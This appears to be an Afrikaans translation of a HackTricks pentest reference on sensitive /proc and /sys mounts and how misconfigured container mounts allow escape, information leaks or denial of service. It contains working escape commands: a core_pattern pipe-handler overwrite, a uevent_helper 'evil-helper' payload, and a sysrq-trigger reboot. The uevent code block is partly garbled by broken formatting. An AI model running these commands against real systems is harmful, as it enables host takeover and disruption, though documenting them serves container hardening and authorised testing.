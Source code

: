 # Sensitiewe Monteerplekke

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

<figure><img src="../../../..https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Die blootstelling van `/proc` en `/sys` sonder behoorlike naamspeis isolasie stel beduidende sekuriteitsrisiko's in, insluitend aanvalsvlakvergroting en inligtingsoffening. Hierdie gids bevat sensitiewe lêers wat, indien verkeerd geconfigureer of deur 'n ongemagtigde gebruiker benader, kan lei tot kontainerontsnapping, gasverandering of inligting voorsien wat verdere aanvalle kan help. Byvoorbeeld, die verkeerd monter van `-v /proc:/host/proc` kan AppArmor-beskerming omseil as gevolg van sy padgebaseerde aard, wat `/host/proc` onbeskerm agterlaat.

**Jy kan verdere besonderhede van elke potensiële kwesbaarheid vind in** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Kwesbaarhede

### `/proc/sys`

Hierdie gids maak toegang moontlik om kernelveranderlikes te wysig, gewoonlik via `sysctl(2)`, en bevat verskeie subgidse van belang:

#### **`/proc/sys/kernel/core_pattern`**

* Beskryf in [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Maak dit moontlik om 'n program te definieer om uit te voer wanneer 'n kernlêer gegenereer word met die eerste 128 byte as argumente. Dit kan lei tot kode-uitvoering as die lêer begin met 'n pyp `|`.
*   **Toets- en Uitbuitingvoorbeeld**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Toets skryftoegang
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Stel aangepaste hanterer in
sleep 5 && ./crash & # Trigger hanterer
```

#### **`/proc/sys/kernel/modprobe`**

* In diepte beskryf in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Bevat die pad na die kernelmodulelaaier, aangeroep vir die laai van kernelmodules.
*   **Toegangkontrole-voorbeeld**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Kontroleer toegang tot modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

* Verwys in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* 'n Globale vlag wat beheer of die kernel paniekerig word of die OOM-killer aanroep wanneer 'n OOM-toestand voorkom.

#### **`/proc/sys/fs`**

* Volgens [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), bevat opsies en inligting oor die lêersisteem.
* Skryftoegang kan verskeie ontkenning-van-diens-aanvalle teen die gas moontlik maak.

#### **`/proc/sys/fs/binfmt_misc`**

* Maak dit moontlik om tolke vir nie-inheemse binêre formate te registreer op grond van hul toorgetal.
* Kan lei tot bevoorregte eskalasie of root-skakeltoegang as `/proc/sys/fs/binfmt_misc/register` skryfbaar is.
* Relevant uitbuit en verduideliking:
* [Armoedige man se rootkit via binfmt\_misc](https://github.com/toffan/binfmt\_misc)
* Diepgaande handleiding: [Video skakel](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Ander in `/proc`

#### **`/proc/config.gz`**

* Kan die kernelkonfigurasie onthul as `CONFIG_IKCONFIG_PROC` geaktiveer is.
* Nuttig vir aanvallers om kwesbaarhede in die lopende kernel te identifiseer.

#### **`/proc/sysrq-trigger`**

* Maak dit moontlik om Sysrq-opdragte aan te roep, wat moontlik onmiddellike stelselherlaaie of ander kritieke aksies kan veroorsaak.
*   **Gas Herlaai Voorbeeld**:

```bash
echo b > /proc/sysrq-trigger # Herlaai die gas
```

#### **`/proc/kmsg`**

* Stel kernelringbufferboodskappe bloot.
* Kan help met kernel-uitbuitings, adreslekke, en die voorsiening van sensitiewe stelselinligting.

#### **`/proc/kallsyms`**

* Lys kernel-uitgevoerde simbole en hul adresse.
* Essensieel vir kernel-uitbuitontwikkeling, veral vir die oorkom van KASLR.
* Adresinligting is beperk met `kptr_restrict` ingestel op `1` of `2`.
* Besonderhede in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Koppel met die kernelgeheue-toestel `/dev/mem`.
* Histories vatbaar vir bevoorregte eskalasie-aanvalle.
* Meer oor [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Verteenwoordig die stelsel se fisiese geheue in ELF-kernformaat.
* Lees kan gasstelsel en ander kontainergeheue-inhoud lek.
* 'n Groot lêergrootte kan lei tot leesprobleme of sagtewarestortings.
* Gedetailleerde gebruik in [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Alternatiewe koppelvlak vir `/dev/kmem`, wat die kernel virtuele geheue verteenwoordig.
* Maak lees en skryf moontlik, dus direkte wysiging van kernelgeheue.

#### **`/proc/mem`**

* Alternatiewe koppelvlak vir `/dev/mem`, wat fisiese geheue verteenwoordig.
* Maak lees en skryf moontlik, wysiging van alle geheue vereis die oplossing van virtuele na fisiese adresse.

#### **`/proc/sched_debug`**

* Gee prosesbeplanningsinligting terug, wat PID-naamspeisbeskerming omseil.
* Stel prosesname, ID's, en cgroup-identifiseerders bloot.

#### **`/proc/[pid]/mountinfo`**

* Verskaf inligting oor koppelplekke in die proses se koppelnaamspesie.
* Stel die ligging van die kontainer `rootfs` of beeld bloot.

### `/sys` Kwesbaarhede

#### **`/sys/kernel/uevent_helper`**

* Gebruik vir die hanteer van kerneltoestel `uevents`.
* Skryf na `/sys/kernel/uevent_helper` kan arbitrêre skripte uitvoer by `uevent`-triggering.
*   **Voorbeeld vir Uitbuiting**: %%%bash

### Skep 'n lading

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

### Vind gaspad vanaf OverlayFS-koppelpunt vir kontainer

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

### Stel uevent\_helper in op skadelike helper

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

### Trigger 'n uevent

echo change > /sys/class/mem/null/uevent

### Lees die uitset

cat /output %%%
#### **`/sys/class/thermal`**

* Beheer temperatuurinstellings, moontlik veroorsaak DoS aanvalle of fisiese skade.

#### **`/sys/kernel/vmcoreinfo`**

* Lek kernel adresse, moontlik kompromitteer KASLR.

#### **`/sys/kernel/security`**

* Bevat `securityfs` koppelvlak, wat konfigurasie van Linux Security Modules soos AppArmor moontlik maak.
* Toegang kan 'n houer in staat stel om sy MAC-stelsel uit te skakel.

#### **`/sys/firmware/efi/vars` en `/sys/firmware/efi/efivars`**

* Blootstel koppelvlakke vir interaksie met EFI veranderlikes in NVRAM.
* Verkeerde konfigurasie of uitbuiting kan lei tot geblokkeerde draagbare rekenaars of onopstartbare gasheer-masjiene.

#### **`/sys/kernel/debug`**

* `debugfs` bied 'n "geen reëls" foutopsporingskoppelvlak na die kernel.
* Geskiedenis van sekuriteitskwessies as gevolg van sy onbeperkte aard.

### Verwysings

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Begrip en Verharding van Linux Houers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Misbruik van Bevoorregte en Onbevoorregte Linux Houers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../..https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Leer AWS hak van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien jou **maatskappy geadverteer in HackTricks** of **laai HackTricks in PDF af** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
